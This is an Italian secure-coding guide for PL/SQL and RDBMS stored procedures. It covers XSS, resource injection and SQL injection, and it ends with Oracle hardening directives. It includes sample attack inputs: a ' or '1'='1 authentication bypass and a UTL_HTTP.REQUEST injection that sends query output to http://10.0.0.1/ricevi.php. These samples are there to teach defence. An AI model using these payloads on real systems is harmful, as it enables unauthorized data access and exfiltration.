 .. _plsql:

7.3 PL/SQL
==========

PL/SQL è un linguaggio interpretato che, nelle sue varie forme e
derivazioni, viene utilizzato principalmente dai seguenti prodotti
RDBMS: Oracle Database Server (e relativo modulo per Apache – modplsql),
Microsoft Sql Server, PostgreSQL, MySQL. In quanto orientato alla
manipolazione di dati presenti sui database, il PL/SQL possiede alcune
criticità intrinseche che derivano dalla mancanza di strumenti interni
al linguaggio votati all'esecuzione dei task di sicurezza più semplici
(es: funzioni di libreria standard per il eimpos delle stringhe, etc.),
e si manifestano in due tipi fondamentali di vulnerabilità: i buffer
overflow, e l'sql-injection. Per il fatto che i linguaggi orientati allo
sviluppo di procedure sono strettamente legati alle tecnologie dei
database, la loro trattazione non può prescindere da una trattazione dei
prodotti RDBMS e delle stored procedures che essi offrono come set di
strumenti standard per la manipolazione dei dati. Per questo motivo, e
per il fatto che il PL/SQL, nella sua forma canonica ed originaria, è
supportato dal database Oracle, si è scelto di esporre brevemente le
criticità di ogni prodotto menzionato, per poi riservare ad Oracle ed
alle sue stored procedures una trattazione più estesa. Di seguito i
prodotti RDBMS che supportano la costruzione di stored procedures e le
loro relative criticità che, si ritiene opportuno ricordare per
coadiuvare la scrittura di procedure sicure.

**Oracle database Server – criticità**

Supporta le SubSelect Supporta ‘UNION’ Supporta le stored procedures Non
supporta statement multipli Molte stored procedures preeimpostate,
alcune pericolose Oracle 9i: 10700 procedure, 760 packages, di cui gli
utenti con privilegi minimi possono eseguire 5700 procedure, 430
packages Oracle 10g: 16500 procedure, 1300 packages di cui gli utenti
con privilegi minimi possono eseguire 5700 : 8900 procedure, 730
packages

**MySQL – criticità**

Supporta la redirezione del'output ai file con la direttiva ‘INTO
OUTFILE’ Supporta ‘UNION’ (dalla versione 4.x) In molti casi è possibile
utilizzare statement multipli

**DB2 – criticità**

Supporta le SubSelect Supporta ‘UNION’ Supporta le stored procedures Non
supporta statement multipli

**PostgreSQL – criticità**

Supporta ‘COPY’ se eseguito come superuser Supporta le SubSelect
Supporta ‘UNION’ Supporta le stored procedures Supporta gli statement
multipli

**MS SQL Server – criticità**

Supporta le SubSelect Supporta ‘UNION’ Supporta le stored procedures
Supporta gli statement multipli Molte store procedures preimpostate sono
pericolose

.. _cross-site-scripting-xss-3:

.. _cross-site-scripting-xss-3:

7.3.1 Cross-site scripting (XSS)………………………………………………………………………………………………………………
--------------------------------------------------------------------------

**Come riconoscerla**

::

    Reflected XSS All Clients puo' utilizzare strumenti di tipo "Social engineering" per carpire
   informazioni dagli utenti web tramite tecniche di bassa tecnologia sviluppate da malintenzionati
   per ottenere informazioni personali, possono, ad esempio, essere simulate pagine quasi identiche
   ad altri siti di largo utilizzo per ottenere informazioni riservate;
    Stored XSS: attraverso questa vulnerabilità un utente malintenzionato potrebbe intercettare lo
   scambio di informazioni sensibili tra un'applicazione e i database relativi allo storage delle
   informazioni stesse. Quando un altro utente accede successivamente a questi dati, le pagine web
   possono essere riscritte e possono essere attivati script dannosi. La vulnerabilità è dovuta all'uso di
   dati prelevati da database in modo arbitrario, senza che prima queste informazioni vengano
   codificate in un formato sicuro. L'applicazione crea pagine web che includono i dati dal database
   dell'applicazione. I dati vengono incorporati direttamente nell'HTML della pagina, in modo che il
   browser visualizzerà queste informazioni come parte della pagina web. Questi dati possono essere
   originati da un altro utente. Se i dati includono frammenti HTML o Javascript, l’utente non sarà in
   grado di sapere che questa non è la pagina da lui voluta bensì un’altra pagina modificata in modo
   fraudolento. La vulnerabilità è il risultato di incorporare dati di database arbitrari, senza prima
   averli codificati in un formato che impedisca al browser di trattare queste informazioni come HTML
   anziché come testo normale.

**Come difendersi**

Al fine di prevenire le problematiche inerenti alla vulnerabilita'
“Reflected XSS All Clients” si consiglia di mettere in atto le
indicazioni come di seguito:

::

    Validare tutti gli input, indipendentemente dalla sorgente. Per la validazione, si consiglia
   l’approccio whitelist (sono accettati solo i dati che adottano una struttura specificata nella
   whitelist, scartando quelli che non la rispettano). Controllare:
   o Data type;
   o Size;
   o Range;
   o Format;
   o Expected values;
    Codificare completamente tutti i dati dinamici prima di incorporare queste informazioni nell'output
   desiderato. La codifica dovrebbe essere context-sensitive. Ad esempio:
   o Codifica HTML per pagine HTML;
   o Attributi HTML codificati per gli output dei dati relativi;
   o Codifica JavaScript per server-generated JavaScript.
    Si consiglia di utilizzare la libreria di codifica ESAPI o le funzioni di libreria sistema incorporate.
    Nell'intestazione di risposta Content-Type HTTP, definire esplicitamente la codifica dei caratteri
   (charset) per l'intera pagina
    Impostare la flag httpOnly sul cookie della sessione, per impedire che eventuali tentativi di tecniche
   fraudolente di XSS possano venire in possesso del cookie stesso

Per ulteriori informazioni si veda:
http://cwe.mitre.org/data/definitions/79.html CWE-79: Improper
Neutralization of Input During Web Page Generation (‘Cross-site
Scripting’)

.. _resource-injection-2:

.. _resource-injection-2:

7.3.2 Resource Injection
------------------------

**Come riconoscerla**

Un utente malintenzionato potrebbe aprire una backdoor che potrebbe
permettere all'attaccante di connettersi direttamente al server con
possibili conseguenze molto gravi per la sicurezza. Attraverso questa
vulnerabilità un possibile malintenzionato potrebbe utilizzare eventuali
connessioni aperte dall'utente, nel caso non fossero gestite
adeguatamente. Questo attacco consiste nel cambiare gli identificatori
delle risorse utilizzate da un'applicazione trasformandoli in strumenti
potenzialmente dannosi. Quando un'applicazione consente ad un input
utente di definire una risorsa, ad esempio un nome di file o un numero
di porta, senza dei controlli opportuni potrebbe essere possibile per un
hacker manipolare queste informazioni per eseguire o accedere a diverse
risorse minando la sicurezza del sistema.

**Come difendersi**

::

    Non consentire a un utente di definire i parametri relativi ai sockets di rete.
   Esempio:
   Questo esempio in PLSQL prende un path di tipo URL da una CGI e esegue il download del file
   contenuto. La vulnerabilità e' rappresentata dalla possibilità per un utente malintenzionato di
   modificare il path del file o il nome del file stesso ricevendo dal server del contenuto arbitrario e
   potenzialmente dannoso.
   filename := SUBSTR(OWA_UTIL.get_cgi_env('PATH_INFO'), 2);
   WPG_DOCLOAD.download_file(filename);

Per ulteriori informazioni si veda:
http://cwe.mitre.org/data/definitions/99.html, CWE-99: Improper Control
of Resource Identifiers (‘Resource Injection’).

.. _second-order-sql-injection-2:

.. _second-order-sql-injection-2:

7.3.3 (Second Order) SQL Injection
----------------------------------

**Come riconoscerla**

Un utente malintenzionato potrebbe accedere direttamente a tutti i dati
del sistema. Utilizzando strumenti e modifiche di testo semplici,
l'aggressore potrebbe rubare qualsiasi informazione riservata
memorizzata dal sistema (ad esempio i dati personali dell'utente o le
carte di credito) e eventualmente modificare o cancellare i dati
esistenti. L'applicazione comunica con il suo database inviando una
query SQL in formato testo. L'applicazione crea la query semplicemente
concatenando le stringhe tra cui i dati ottenuti dal database. Poiché
questi dati possono essere stati in precedenza ottenuti dall'input
dell'utente e non sono stati verificati la validità del tipo di dati né
successivamente sanificati, i dati potrebbero contenere comandi SQL che
verrebbero interpretati come tali dal database.

**Come difendersi**

Al fine di prevenire le problematiche inerenti la vulnerabilita' “SQL
Injection” si consiglia di mettere in atto le indicazioni come di
seguito:  Validare tutti gli input, indipendentemente dalla sorgente.
La validazione dovrebbe essere basata su una whitelist: dovrebbero
essere accettati solo i dati che adattano a una struttura specificata,
scartando quelli che non rispettano la whitelist. Controllare: o Data
type; o Size; o Range; o Format; o Expected values;  Invece di
concatenare le stringhe si consiglia di: o Utilizzare componenti di
database sicuri come le procedure memorizzate, query parametrizzate e le
associazioni degli oggetti (per comandi e parametri). o Una soluzione
ancora migliore è quella di utilizzare una libreria ORM, come
EntityFramework, Hibernate o iBatis  Limitare l'accesso agli oggetti e
alle funzionalità di database, in base al “Principle of Least Privilege”
(non fornire diretti agli utenti maggiori di quelli strettamente
necessari).  Validare sempre l'input e accettare solo valori che
corrispondono a un elenco di valori ammessi (white list).  Per evitare
la SQL Injection è necessario evitare di concatenare le stringhe e
affidarsi alle stored procedures e alle query parametriche (prepared
statement). Meglio ancora utilizzare una libreria ORM come
EntityFramework, Hibernate, or iBatis. Esempio: L'SQL Injection è un
particolare tipo di attacco il cui scopo è quello di indurre il database
ad eseguire query SQL non autorizzate. Consideriamo la seguente query:
SELECT \* FROM Tabella WHERE
username=‘:math:`user' AND password='`\ pass’ $user e $pass sono
impostate dall'utente e supponiamo che nessun controllo su di esse venga
fatto. Vediamo cosa succede inserendo i seguenti valori: $user = ' or
‘1’ = ‘1 $pass =’ or ‘1’ = ‘1 La query risultante sarà: SELECT \* FROM
Tabella WHERE username=’' or ‘1’ = ‘1’ AND password='' or ‘1’ = ‘1’ 
Approccio tramite whitelist : nell'approccio whitelist abbiamo un
insieme di caratteri validi. Ad ogni richiesta fatta, se l'input
ricevuto contiene dei caratteri non presenti in tale lista, allora
segnaleremo un errore. Ciò comporta una attenta definizione della lista
in fase di definizione dei requisiti dell'applicazione oltre che una
corretta gestione dei caratteri permessi (se permetto il carattere ' e
poi non lo gestisco adeguatamente non risolvo nulla).

::

    Oltre la whitlist si puo’ anche usare il metodo della concatenazione delle variabili con uso della
   funzionalita’ “quote” per evitare un SQL injection attack.
   Esempio - Forma non corretta:
   SQLExec("SELECT NAME, PHONE FROM PS_INFO WHERE NAME='" | &UserInput | "'",
   &Name, &Phone);
   Esempio - Forma corretta
   SQLExec("SELECT NAME, PHONE FROM PS_INFO WHERE NAME='" |
   Quote(&UserInput) | "'", &Name, &Phone);

Per ulteriori informazioni si veda:
http://cwe.mitre.org/data/definitions/89.html CWE-89, Improper
Neutralization of Special Elements used in an SQL Command (‘SQL
Injection’)

.. _ulteriori-indicazioni-per-lo-sviluppo-sicuro-2:

.. _ulteriori-indicazioni-per-lo-sviluppo-sicuro-2:

7.3.4 Ulteriori indicazioni per lo sviluppo sicuro
--------------------------------------------------

Di seguito ulteriori direttive per lo sviluppo PL/SQL in sicurezza.

.. _posizionamento-delle-procedure-plsql-.:

7.3.4.1 Posizionamento delle procedure PL/SQL ………………………………………………………………………………………………….
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

    E’ necessario valutare attentamente la posizione in cui si collocano le procedure sviluppate:
   o In file separati, organizzati per categoria, sul filesystem del db server:
    Minor numero di vulnerabilità derivanti dal fatto che il codice non viene precaricato
    Implementazione di meccaniche di “failover” più semplice
    Possibilità dell’uso del version-control e backup
    Maggiore protezione del codice sorgente, difficile da sovrascrivere
   o Nei packages del DB:
    Maggior efficenza del codice
    Accesso al codice tramite la tabella USER_SOURCE
    Integrazione con alcuni IDE

.. _tipologie-di-procedure-vulnerabili-..:

7.3.4.2 Tipologie di procedure vulnerabili …………………………………………………………………………………………………………..
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

L'utilizzo di differenti strumenti di manipolazione dei dati che il
PL/SQL mette a disposizione del programmatore, determina la modalità con
cui il codice viene scritto, ed in ultima istanza determina la tipologia
di risorsa che il codice andrà a comporre. Esistono in PL/SQL i seguenti
tipi di “risorse”: o embedded SQL o cursori (ovvero i recordset del
PL/SQL) o EXECUTE IMMEDIATE (ovvero PL/SQL dinamico) o Packages o
Triggers Per tutte queste differenti tipologie di risorse, comunque, la
casistica in cui il PL/SQL risulta vulnerabile può essere ridotta a due
tipologie di codice: o Blocco di PL/SQL anonimo, ovvero un blocco di
PL/SQL che ha un BEGIN ed un END può essere utilizzato per eseguire
query multiple. Esempio: EXECUTE IMMEDIATE ‘BEGIN INSERT INTO TABELLA
(COLONNA1) VALUES (‘’' \|\| PARAM \|\| ‘''); END;'; o Blocco di PL/SQL
singolo, ovvero quel codice che non è dichiarato con BEGIN ed END, e non
permette l'utilizzo del carattere “;” per l'iniezione di query multiple.
Esempio: OPEN cur_cust FOR ‘select name from customers where id = ‘’'|\|
p_idtofind \|\| ‘''';

.. _filtraggio-dei-tipi-di-input-iniettabile-..:

7.3.4.3 Filtraggio dei tipi di input iniettabile ………………………………………………………………………………………………………..
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Quando si utilizzano le stored procedures, è necessario porre opportuna
attenzione al filtraggio dei seguenti tipi di input: o UNIONI: possono
essere utilizzate per includere query ulteriori rispetto a quelle
effettuate dalla stored procedure. o SUBSELECTS o Comandi DDL/DML
(INSERT, UPDATE, DELETE etc.) o Nomi dei packages

.. _filtraggio-di-caratteri-potenzialmente-dannosi-.:

7.3.4.4 Filtraggio di caratteri potenzialmente dannosi ………………………………………………………………………………………….
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

    È necessario che i caratteri “ (ASCII 34), ‘ (ASCII 39), in tutte le loro possibili codifiche (hex, ascii, utf-
   8, etc.), siano filtrati e/o opportunamente sanitizzati mediante escaping.
    È inltre necessario che i caratteri # (ASCII 35), -- (ASCII 4545), % (ASCII 37), ; (ASCII 59), in tutte le
   loro possibili codifiche (hex, ascii, utf-8, etc.) siano filtrati e/o opportunamente sanitizzati mediante
   escaping.

.. _direttive-per-oracle:

7.3.4.5 Direttive per Oracle ………………………………………………………………………………………………………………………………
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Si elencano di seguito le direttive di configurazione del database
Oracle alle quali è necessario attenersi – nei limiti posti dalle
esigenze applicative – per raggiungere un elevato livello di sicurezza
delle applicazioni sviluppate con questa tecnologia.  Account: o è
necessario disabilitare gli account di default del database; o è
necessario cambiare la password all'utente SYS;  Ruoli: o è necessario
revocare il ruolo RESOURCE dagli utenti; o è necessario revocare il
ruolo CONNECT da tutti gli utenti;  Permessi: o è necessario revocare
il permesso pubblico di esecuzione su utl_file (vedi par. “prevenire
l'upload remoto di file”) ; o è necessario revocare il permesso pubblico
di esecuzione su utl_http (vedi par. “prevenire la redirezione
dell'output”) ; o è necessario revocare il permesso pubblico di
esecuzione su utl_tcp ; o è necessario revocare il permesso pubblico di
esecuzione su utl_smtp ; o è necessario controllare il permesso pubblico
di esecuzione sui packages e le viste di cui gli utenti sys e dba sono
proprietari; o è necessario revocare il permesso pubblico su
dbms_random; o è necessario revocare il permesso pubblico su dbms_lob ;
o è necessario revocare ogni tipo di permesso su dbms_sql e dbms_sys_sql
granted; o è necessario utilizzare i permessi dell'utente chiamante per
ogni tipo di procedura; o è necessario controllare e opportunamente
dispensare il permesso “BECOME USER”; o è necessario controllare e
opportunamente dispensare il permesso “CREATE ANY DIRECTORY”; o è
necessario controllare e opportunamente dispensare il permesso “CREATE
JOB”; o è necessario controllare e opportunamente dispensare il permesso
“CREATE LIBRARY” ; o è necessario revocare ogni permesso di esecuzione
su sys.initjvmaux; o è necessario revocare il permesso pubblico di
esecuzione su dbms_job; o è necessario revocare il permesso pubblico di
esecuzione su dbms_scheduler ; o è necessario revocare il permesso
pubblico di esecuzione su owa_util; o è necessario negare l'accesso
all'esecuzione di “SELECT ANY TABLE”; o è necessario controllare ed
opportunamente disporre i permessi di accesso al package
dbms_backup_restore;

o è necessario revocare il permesso di creazione degli oggetti a tutti
gli utenti eccetto quelli proprietari dello schema; o è necessario
controllare l'accesso agli oggetti ed assicurarsi che gli utenti possano
interagire unicamente con gli oggetti che sono loro necessari; o è
necessario impedire al dba di leggere le tabelle di sistema; o è
necessario impedire al dba di leggere i dati dell'applicazione. o
Inoltre:  è necessario controllare ed opportunamente sanitizzare il
parametro utl_file_dir;  è necessario controllare l'accesso di Java al
sistema operativo;  è necessario controllare e regolare opportunamente
la maniera in cui Java e Oracle interagiscono;  è necessario rendere
extproc sicuro;  è necessario settare il parametro \_trace_files_public
a FALSE ;  è necessario controllare e rendere sicuro il package
statspack;  Offuscamento del codice con WRAP: l'utility “wrap”
(utilizzabile nella forma: wrap iname=input_file [oname=output_file]),
deve essere utilizzato per offuscare i files SQL ove le procedure sono
memorizzate.È necessario ricordare che l'utility wrap è in grado di
offuscare il codice rendendo di difficile lettura il sorgente (e quindi
l'algoritmo), ma non è in grado di proteggere eventuali stringhe di
testo memorizzate staticamente nel codice, come nomi di tabelle e
passwords.  Prevenire la redirezione dell'output; è sempre necessario
filtrare l'accesso al package UTL_HTTP che può essere utilizzato per la
redirezione dell'output nelle query. Esempio di forma non corretta :
SELECT TRANSLATE(‘input utente’, ‘0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ’,
‘0123456789’) FROM DUAL; Valorizzando l'input utente come: ‘' \|\|
UTL_HTTP.REQUEST(‘http://10.0.0.1/ricevi.php’) \|\| ‘' La procedura
diventa: SELECT TRANSLATE(‘' \|\|
UTL_HTTP.REQUEST(‘http://10.0.0.1/ricevi.php’) \|\| ‘',
‘0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ’, ‘0123456789’) FROM DUAL; 
Prevenire l'upload remoto di file - È sempre necessario filtrare
l'accesso al package UTL_FILE che può essere il trasferimento di file
tramite stored procedures.  Prevenire l'iniezione di chiamata a
funzioni - È sempre necessario limitare opportunamente il contesto di
transazione di una procedura. È inoltre necessario evitare di utilizzare
la direttiva PRAGMA AUTONOMOUS_TRANSACTION ove non necessario, onde
evitare di modificare il contesto transazionale all'interno del quale la
query viene eseguita.  Dichiarazione dei privilegi di esecuzione delle
procedure: o È necessario dichiarare le procedure utilizzando la keyword
AUTHID CURRENT_USER o È necessario revocare il privilegio EXECUTE sui
pacchetti e sulle procedure standard di Oracle non utilizzati. o È
necessario garantire i permessi alle operazioni di creazione (CREATE) e
modifica (ALTER) di procedure unicamente ad utenze “trusted”. o È
necessario definire i permessi delle funzioni associandoli unicamente ad
utenti “trusted”  È necessario garantire il ruolo RESOURCE unicamente
ad utenti "trusted.
